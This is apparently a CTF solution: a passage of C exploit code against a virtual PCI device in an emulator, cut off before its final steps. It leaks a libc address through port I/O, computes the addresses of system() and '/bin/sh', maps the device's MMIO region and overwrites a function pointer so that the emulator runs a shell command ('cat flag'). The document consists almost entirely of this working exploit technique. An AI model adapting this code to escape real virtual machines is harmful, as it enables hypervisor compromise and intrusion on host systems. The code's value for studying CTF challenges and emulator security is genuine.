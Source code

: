 ```c
}

void mmio_write(uint32_t addr,uint32_t value)
{
    *((uint32_t *)(mmio_mem+addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem+addr));
}

void pmio_write(uint32_t addr,uint32_t value)
{
    outl(value,pmio_base + addr);
}

uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)(inl(pmio_base + addr));
}

int main()
{
    if(iopl(3)!=0){perror("iopl failed");exit(-1);}

    pmio_write(0, 65 << 2);
    uint32_t low_bits = pmio_read(4);
    pmio_write(0, 66 << 2);
    uint32_t upper_bits = pmio_read(4);
    long long srand_addr = ((long long)upper_bits << 32) | ((long long)low_bits & 0xFFFFFFFF);
    printf("srand_addr = 0x%llx\n", srand_addr);

    long long libc_base = srand_addr - 0x43ba0;
    long long system_addr = libc_base + 0x403860;
    long long binsh_addr = libc_base + 0x1b3d88;
    printf("libc_base = 0x%llx\n", libc_base);
    printf("system_addr = 0x%llx\n", system_addr);
    printf("binsh_addr = 0x%llx\n", binsh_addr);

    // binsh
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);

    // system
    pmio_write(0, 69 << 2);
    pmio_write(4, system_addr & 0xFFFFFFFF);
    pmio_write(0, 70 << 2);
    pmio_write(4, (system_addr >> 32) & 0xFFFFFFFF);

    // binsh
    int binsh[2];
    memcpy(binsh, "cat flag", 8);
    mmio_write(2 << 2, binsh[0]);
    mmio_write(3 << 2, binsh[1]);

```